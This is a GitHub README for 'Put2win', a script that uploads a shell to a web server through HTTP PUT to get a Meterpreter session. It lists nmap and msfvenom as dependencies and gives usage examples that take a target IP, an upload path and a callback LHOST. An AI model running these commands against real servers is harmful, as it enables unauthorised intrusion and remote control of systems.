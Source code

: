 # Put2win
Script to automatize shell upload by PUT HTTP method to get meterpreter

[![asciicast](https://asciinema.org/a/0GFJCJzRQZBlWYAxco2ONqODZ.png)](https://asciinema.org/a/0GFJCJzRQZBlWYAxco2ONqODZ)

# Dependencies
It's necessary to have installed nmap and msfvenom tools for a correct operation

# Usage
./Put2win.sh -h                                    
This script automatize shell upload by PUT HTTP method to get meterpreter.

Usage:
 ./Put2win.sh -t TARGET [-p PORT] -u URL_PATH -l LHOST

Examples:
 - ./Put2win.sh -t 192.168.1.80 -u /uploads -l 192.168.1.10
 - ./Put2win.sh -t 192.168.1.80 -p 443 -u /uploads -l 192.168.1.10

# Contact
Telegram: @devploit

Twitter: https://www.twitter.com/devploit
